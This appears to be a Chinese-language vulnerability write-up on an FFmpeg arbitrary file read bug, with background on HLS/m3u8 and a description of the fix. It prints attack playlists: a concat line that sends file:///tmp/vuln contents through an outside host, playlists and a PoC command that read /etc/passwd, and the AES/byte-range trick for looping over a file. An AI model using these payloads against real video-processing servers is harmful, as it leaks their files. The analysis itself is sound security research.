# FFmpeg任意文件读取漏洞分析 #



## 1.&emsp;漏洞描述 ##

* 漏洞简述： 漏洞利用了FFmpeg可以处理HLS播放列表的特性，而播放列表可以引用外部文件。通过在AVI文件中添加自定义的包含本地文件引用的HLS播放列表，可以触发该漏洞并在该文件播放过程中显示本地文件的内容
* 漏洞发现者：Neex
* 影响版本：FFmpeg < 3.3.2

## 2.&emsp;FFmpeg 背景知识简介 ##

&emsp;&emsp;FFmpeg是一套可以用来记录、转换数字音频、视频，并能将其转化为流的开源计算机程序。它包括了目前领先的音/视频编码库libavcodec。 FFmpeg是在Linux下开发出来的，但它可以在包括Windows在内的大多数操作系统中编译。这个项目是由Fabrice Bellard发起的，现在由Michael Niedermayer主持。可以轻易地实现多种视频格式之间的相互转换，例如可以将摄录下的视频avi等转成现在视频网站所采用的flv格式。其基本的工作流程是：

原始的封装视频 –> demux 分离器对封装的视频资源进行分离 –> 得到音频资源和视频资源 –> 进行解码 –> 得到解压后的音频资源和视频资源 –> 进入 filter 进行编辑处理 –> 得到处理后的音频资源和视频资源 –> 对资源编码得到转码后的音频资源和视频资源 –> 进入 mux 混合器进行封装 –> 得到转码封装后的视频



## 3.&emsp;HLS简介 ##

**HLS (HTTP Live Streaming)**

常用的流媒体协议主要有 HTTP 渐进下载（HLS,flash 渐进式等）和基于 RTSP/RTP 的实时流媒体协议，这二种基本是完全不同的东西，目前比较方便又好用的是用 HTTP 渐进下载方法。

在这个中 apple 公司的 HTTP Live Streaming 是这个方面的代表。它会把整个视频流分成多个小的，基于 HTTP 的文件来下载，每次下载一部分，并把视频流元数据存放于 m3u8 文件中。

**M3U8文件概念**

M3U8文件是指UTF-8编码格式的M3U文件。M3U文件是记录了一个索引纯文本文件，打开它时播放软件并不是播放它，而是根据它的索引找到对应的音视频文件的网络地址进行在线播放。

**简单归纳起来就是：首先将一个完整视频分成多个TS视频文件，用户下载m3u8文件，通过m3u8文件的索引地址  播放具体的每个小段视频。**



一个m3u8文件的基本格式如下:

```shell
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://cdev.dx.su:1234/8.mp4   # 可以是远程资源
#EXT-X-ENDLIST
```

或者：

```shell
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
test.ts   # 也可以是真正的视频资源
#EXT-X-ENDLIST
```

**注释**

```shell
#EXTM3U:  每个M3U文件第一行必须是这个tag。
#EXTINF:指定每个媒体段(ts)的持续时间，这个仅对其后面的URI有效，每两个媒体段URI间被这个tag分隔开，其格式如下：
	#EXTINF:<duration>,<title>  ：duration表示持续的时间（秒）”Durations MUST be integers if the protocol version of the Playlist file is less than 3“，否则可以是浮点数。
#EXT-X-MEDIA-SEQUENCE：每一个media URI 在 PlayList中只有唯一的序号，相邻之间序号+1。
    #EXT-X-MEDIA-SEQUENCE:<number>：一个media URI并不是必须要包含的，如果没有，默认为0。EXT-X-ENDLIST：表示PlayList的末尾了，它可以在PlayList中任意位置出现，但是只能出现一个，格式如下：  
    #EXT-X-ENDLIST
```

## 4&emsp;漏洞分析 ##

该漏洞主要还是利用了去年的 CVE-2016-1897 和 CVE-2016-1898，一个 SSRF 和一个任意文件读取漏洞，其中 SSRF 用到的就是 m3u8 可以访问获取远程资源的特性。

**CVE-2016-1897**



**CVE-2016-1898**

因为FFmpeg扩展性极强，其中支持一个 Physical concatenation protocol concat: 可以把多个 url 流合并访问资源：

```shell
concat:URL1|URL2|…|URLN
```

结合 SSRF ，我们可以把 file:// 读到的内容发送出来。

```shell
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXTINF:10.0,
concat:http://rr.sb/poc/header.m3u8|file:///tmp/vuln  
#EXT-X-ENDLIST
```



之后官方在2.8.5版本修复了该漏洞。

而这个漏洞则是绕过了这次修复，继续利用这两个漏洞达到任意文件读取。

在上个月的 phdays conference 里，通过视频格式的一个 trick bypass 了厂商对 SSRF 的封堵。

奇怪的视频格式标准

在 AVI 视频中，有一个数据块可以定义字幕，叫做 GAB2 ，位置于 AVI header 中，有趣的是 m3u8 可以插入到 avi 文件中，且 FFmpeg 依旧会对有文件头 `#EXTM3U` 的 AVi 视频做 HLS 处理。

利用思路如下： 将 m3u8 嵌入到带有 GAB2 的AVI视频中，对文件格式检查进行 bypass 。 因为之前说过，m3u8 并不是真正的视频资源，所以如果要播放，必须还要在 m3u8 中嵌入一个可播放的视频资源，其中有一个古老的媒体格式 XBin，这个媒体格式具备基本显示图片，文本的功能，体积非常小，最重要的是，这个媒体格式可编程，如果嵌入到 m3u8 中，将目标文件作为对象，用 xbin 绘制成为字符，就可以作为合法可播放的视频文件观看了，所以依次嵌套后，文件内容大致为：

```shell
[AVI header]  
[GAB2 header]  
[m3u8 header]  
[XBIN header]  
目标文件  
[XBIN footer]  
[m3u8 footer]  
[AVI footer]  
```

但 FFmpeg 检查了 body 中的非法字符串，所以无法使用 data :对 XBIN 格式声明

```shell
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:1
#EXTINF:1.0,
data:<format-header>  
#EXTINF:1.0,
file:///etc/passwd  
#EXTINF:1.0,
data:<format-footer>  
#EXT-X-ENDLIST
```

但是m3u8支持AES128的CBC模式加密，可以在#EXT-X-KEY中进行设置，所以可以很简单加密m3u8的内容：

```shell
…
#EXTINF:1,
#EXT-X-KEY:METHOD=AES-128, URI=/dev/zero, IV=<VAL>
#EXT-X-BYTERANGE: 16
/dev/zero
…
= AES^-1 CONST(0x00…00) ⊕<VAL> = <FMT HEADER>
```

由于m3u8单次访问目标文件获取到的内容不完整，为了获得完整的文件内容，还需要控制#EXT-X-BYTERANGE设置偏移量，然后重复这一部分

最终，我们得到的文件应该是这样的：

```shell
[AVI header]
[GAB2 header]
[m3u8 header]
{loop}
#EXT-X-KEY:METHOD=AES-128, URI=/dev/zero, IV=<VAL>     #声明m3u8的AES加密，将XBIN部分加密
[XBIN header]     #被加密
目标文件
[XBIN footer]    #被加密
{loop}
[m3u8 footer]
[AVI footer]
```

利用[github上](https://github.com/neex/ffmpeg-avi-m3u-xbin "https://github.com/neex/ffmpeg-avi-m3u-xbin")的Python POC脚本生成含有SSRF攻击的avi格式视频。脚本使用方法：



通过命令行查看生成的avi视频源码：



通过notepad++ 查看视频文件源码：



1. 可以看到和上述的命令行查看是一样的，AVI header以及GAB2 包含不可打印字符这里就不做解释了，我们可以看到`### echoing b'XBIN\x1a \x00\x0f\x00\x10\x04\x01\x00\x00\x00\x00'` 为XBIN header。

2. `#EXT-X-KEY: METHOD=AES-128, URI=/dev/zero, IV=0x4c4d465e0b95223279487316ffd9ec3a`

      ```shell
       EXT-X-KEY:表示怎么对media segments进行解码。其作用范围是下次该tag出现前的所有media URI，格式如下：
       #EXT-X-KEY:<attribute-list>：
        NONE 或者 AES-128。如果是NONE，则URI以及IV属性必须不存在，如果是AES-128(Advanced Encryption Standard)，则URI必须存在，IV可以不存在。
        对于AES-128的情况，keytag和URI属性共同表示了一个key文件，通过URI可以获得这个key，如果没有
        IV（Initialization Vector）,则使用序列号作为IV进行编解码，将序列号的高位赋到16个字节的buffer中，左边补0；如果
        有IV，则将改值当成16个字节的16进制数。
      ```

3. `#EXT-X-BYTERANGE: 64@0`

    ```
    EXT-X-BYTERANGE控制文件的偏移地址，并在随后的空行中指定文件的URI地址。通过不断递增文件的偏移地址，该文件可以实现对本地文件的遍历显示播放。
    ```

通过命令`ffplay exp.avi`直接读取生成的avi文件,可以看到文件内容成功显示到ffplay视频播放器中：



## 5.&emsp;漏洞复现（远程文件读取） ##

1.首先自己搭建一个可以上传视频以及播放视频的页面。



2.利用上文中POC生成avi视频文件：`./gen_xbin_avi.py file:///etc/passwd exp.avi`

3.将视频文件通过网页上传到服务器中，点击播放：



可以看到成功显示了/etc/passwd内容。

## 6.&emsp;修复方案 ##

根据官方升级版本进行[源码diff](https://github.com/FFmpeg/FFmpeg/compare/release/3.1 "https://github.com/FFmpeg/FFmpeg/compare/release/3.1"):





我们可以看到最主要的修复方式是在hls.c文件中，

	+    {"allowed_extensions", "List of file extensions that hls is allowed to access",
	+        OFFSET(allowed_extensions), AV_OPT_TYPE_STRING,
	+        {.str = "3gp,aac,avi,flac,mkv,m3u8,m4a,m4s,m4v,mpg,mov,mp2,mp3,mp4,mpeg,mpegts,ogg,ogv,oga,ts,vob,wav"},
	+        INT_MIN, INT_MAX, FLAGS},

采用白名单机制，限制后缀名只能是上述的那些才能执行。

## 7.&emsp;参考资料 ##

* [https://www.blackhat.com/docs/us-16/materials/us-16-Ermishkin-Viral-Video-Exploiting-Ssrf-In-Video-Converters.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Ermishkin-Viral-Video-Exploiting-Ssrf-In-Video-Converters.pdf "https://www.blackhat.com/docs/us-16/materials/us-16-Ermishkin-Viral-Video-Exploiting-Ssrf-In-Video-Converters.pdf")
* [流媒体开发之--HLS--M3U8解析](http://blog.csdn.net/jwzhangjie/article/details/9743971 "http://blog.csdn.net/jwzhangjie/article/details/9743971")
* [HLS科普1 HLS和M3U8简介](http://blog.csdn.net/cabbage2008/article/details/50522190 "http://blog.csdn.net/cabbage2008/article/details/50522190")
* [FFmpeg 安全问题讨论](http://paper.seebug.org/338/ "http://paper.seebug.org/338/")
* [https://github.com/FFmpeg/FFmpeg/compare/release/3.1](https://github.com/FFmpeg/FFmpeg/compare/release/3.1 "https://github.com/FFmpeg/FFmpeg/compare/release/3.1")
